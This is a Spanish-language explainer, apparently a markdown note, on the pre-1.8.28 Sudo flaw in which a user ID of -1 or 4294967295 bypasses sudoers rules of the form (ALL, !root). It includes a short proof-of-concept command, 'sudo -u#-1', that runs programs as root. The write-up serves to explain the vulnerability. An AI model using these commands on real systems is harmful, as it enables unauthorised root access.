 Sudo es un programa dedicado al sistema operativo Linux, o cualquier otro sistema operativo similar a Unix, y se usa para delegar privilegios. Por ejemplo, puede ser utilizado por un usuario local que desee ejecutar comandos como raíz, el equivalente de Windows del usuario administrador.

todas las versiones de Sudo anteriores a la versión 1.8.28 se ven afectadas:

```bash
sudo -v
```

La falla de seguridad podría permitir que un usuario malintencionado ejecute comandos arbitrarios como usuario raíz, incluso en los casos en que no se permite el acceso raíz.

la vulnerabilidad es relevante en una configuración específica en la política de seguridad de Sudo, llamada "sudoers", que ayuda a garantizar que los privilegios se limiten solo a usuarios específicos. 

El problema ocurre cuando un administrador de sistemas inserta una entrada en el archivo sudoers, por ejemplo:

```bash
jacob myhost = (ALL, !root) /usr/bin/chmod
```

Esta entrada significa que el usuario jacob puede ejecutar "chmod" como cualquier usuario, excepto el usuario raíz, lo que significa que existe una política de seguridad para limitar el acceso.

al hacer **sudo -l** con el usuario saldra algo asi:

```bash
(ALL, !root) NOPASSWD: /usr/bin/chmod
```

Desafortunadamente, Joe Vennix de Apple Information Security descubrió que la función no puede analizar todos los valores correctamente y al proporcionar el ID de usuario del parámetro "-1" o su número sin firmar "4294967295", el comando se ejecutará como raíz, sin pasar por la entrada de la política de seguridad. establecido en el ejemplo anterior.

En el siguiente ejemplo, cuando ejecutamos el ID de usuario "-1", obtenemos el número de ID "0", que es el valor del usuario raíz (ROOT):

#### POC

```bash
sudo -u#-1 id -u

#0
```

entonces esto nos ayudaria a ejecutar programas como root siempre y cuando esten en el sudoers, con la siguiente regla nos permitia ejecutar chmod como otro usuario que no es root:

```bash
jacob myhost = (ALL, !root) /usr/bin/chmod
```

pero esto lo podemos evadir de la siguiente manera:

```bash
sudo -u#-1 /usr/bin/chmod ...
```
